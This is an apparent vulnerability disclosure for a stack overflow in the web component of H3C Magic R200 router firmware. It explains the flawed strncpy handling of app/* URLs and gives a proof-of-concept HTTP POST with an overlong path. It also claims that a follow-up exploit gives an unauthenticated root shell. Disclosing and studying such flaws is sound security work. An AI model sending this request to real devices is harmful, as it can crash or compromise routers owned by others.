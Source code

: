 # H3C magic R200 R200V200R004L02.bin  Stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202012/1361151_30005_0.htm

## Affected version

![image-20220624224706073](img/image-20220624224706073.png)

The figure above shows the latest firmware.

## Vulnerability details

![image-20220625221916785](img/image-20220625221916785.png)

When requesting an app/* page, the web component does not handle the URL data well. The strlen function is used to judge the end of the data, and then the URL is intercepted. Then copy the data to the stack through the strncpy function.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware R200V200R004L02.bin
2. Attack with the following POC attacks

```
POST /ihomers/app/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Content-Type: application/json; charset=utf-8
Content-Length: 0
Host: 192.168.124.1
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/3.10.0
```

![image-20220624230619282](img/image-20220624230619282.png)

 The above figure shows the POC attack effect 

Finally, you can write exp, which can obtain a stable root shell without authorization

![image-20220625212730573](img/image-20220624231746994.png)


